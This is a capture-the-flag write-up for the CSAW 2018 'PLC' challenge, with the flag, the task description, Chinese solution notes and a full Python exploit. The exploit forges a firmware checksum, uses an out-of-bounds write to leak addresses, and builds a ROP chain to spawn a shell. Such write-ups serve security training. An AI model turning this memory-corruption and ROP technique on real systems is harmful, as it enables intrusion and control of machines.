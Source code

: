 # PLC

Points: 300

Flag: `flag{1s_thi5_th3_n3w_stuxn3t_0r_jus7_4_w4r_g4m3}`

## Description

> We've burrowed ourselves deep within the facility, gaining access to the programable logic controllers (PLC) that drive their nuclear enrichment centrifuges.
> Kinetic damage is necessary, we need you to neutralize these machines.
> 
> You can access this challenge at https://wargames.ret2.systems/csaw_2018_plc_challenge
> 
> *NOTE* The wargames platform is out of scope for this challenge, just use it to do the pwnable. Any kind of scanning or misuse will get your ip banned! However, if you do happen to find any security issues, please email us at `contact at ret2.io`


## solution

1. 只可以利用wargame平台进行做题，但平台已经提供了反汇编器、main函数的源码、python代码编辑器、gdb调试器。
2. 功能比较简单，按平台步骤提示往下走：
    1. 先分析checksum验证函数，构造能顺序通过checksum检查的固件
    2. 分析xexecutefirmware函数，发现`0x37`可以控制离心机转速，通过多个`0x37`指令，使得离心机转速超标。
    3. 发现`0x32`,可以控制0x32后面一位覆盖核反应堆材料的内存地方，因此会有内存越界写的现象
    4. 调试发现，核反应堆材料的内存地方后面有两个函数指针，因此，可以通过改写函数指针，从而达到`call　anycode`的目的
    5. 调试再发现，在main函数中，有个128字节大小的缓冲区，可以存放ret2syscall的gadget（因为程序disable了libc的system，他的实现方法是改写了execve开头的指令，使其执行abort函数）
    6. 可以通过多次pop　ret,　退到ret2syscall的缓冲区地方，从而顺利拿到shell。

```python
import interact
import sys
import struct


def p16(num):
    return struct.pack("<H", num)


def p64(num):
    return struct.pack("<Q", num)


def u64(sstr):
    res, = struct.unpack("<Q", sstr)
    return res


def u16(sstr):
    res, = struct.unpack("<H", sstr)
    return res


p = interact.Process()

data = p.readuntil('\n')

#p.sendline("S")
p.sendline("U")
#data = p.readuntil('\n')

system_offset = 0x45390
abort_offset = 0x36ec0

one_gg = 0x45216
#one_gg = 0xec0
a = ["\x36", "\x37"]*(0x200-68) + ["\x32", "\x41"]*(68)
a[0] = "F"
a[1] = "W"
a[4] = "9"
a[5] = "9"


def validate_checksum(buf):
    checksum = 0
    for i in range(2, 0x200):
        checksum = ((((((checksum << 12) | (checksum >> 4)) & 0xFFFF) + i)
                     ^ (u16(buf[i*2]+buf[i*2+1])))) & 0xFFFF
    return checksum


checkss = validate_checksum(a)
a[2] = p16(checkss)[0]
a[3] = p16(checkss)[1]

#p.sendline('FW'+"1"*0x400)

p.sendline("".join(a))

p.sendline("E")
p.sendline("S")

p.readuntil("ENRICHMENT MATERIAL: "+"A"*68)
data = p.readuntil('\n').strip().ljust(8, "\x00")
data, = struct.unpack("<Q", data)
# print "llllllllllllllllll: ", hex(data)
bin_base = data - 0xab0
print "bin base: ", hex(bin_base)

a = ["\x36", "\x37"]*(0x200-76) + ["\x32", "\x41"]*(76)
a[0] = "F"
a[1] = "W"
a[4] = "9"
a[5] = "9"
checkss = validate_checksum(a)
a[2] = p16(checkss)[0]
a[3] = p16(checkss)[1]

p.sendline("U")
p.sendline("".join(a))
p.sendline("E")
p.sendline("S")

p.readuntil("ENRICHMENT MATERIAL: "+"A"*76)
data = p.readuntil('\n').strip().ljust(8, "\x00")
data, = struct.unpack("<Q", data)
libc_base = data - abort_offset
print "libc base: ", hex(libc_base)


def convert_addr(buf, instr):
    a = []
    for i in buf:
        a += [instr, i]
    return a


syscall_ret = 0x00000000000bc375 + libc_base
pop_rax_ret = 0x0000000000033544 + libc_base
pop_rdi_ret = 0x0000000000021102 + libc_base
pop_rsi_ret = 0x00000000000202e8 + libc_base
pop_rdx_ret = 0x0000000000001b92 + libc_base
bin_sh = 0x18cd57 + libc_base
pop7_ret = 0x00000000000210f9 + libc_base

pad = p64(pop_rax_ret)
pad += p64(59)
pad += p64(pop_rdi_ret)
pad += p64(bin_sh)
pad += p64(pop_rdx_ret)
pad += p64(0)
pad += p64(pop_rsi_ret)
pad += p64(0)
pad += p64(syscall_ret)

payload = "A"*(76-8-4) + "\x00" * 12 + p64(pop7_ret)  
a = ["\x37", "\x37"]*(0x200-len(payload)) + convert_addr(payload, "\x32")
a[0] = "F"
a[1] = "W"
a[4] = "9"
a[5] = "9"
checkss = validate_checksum(a)
a[2] = p16(checkss)[0]
a[3] = p16(checkss)[1]
p.sendline("U")
p.sendline("".join(a))
p.sendline("E"*8 + pad)
# p.sendline("S")


p.interactive()

```
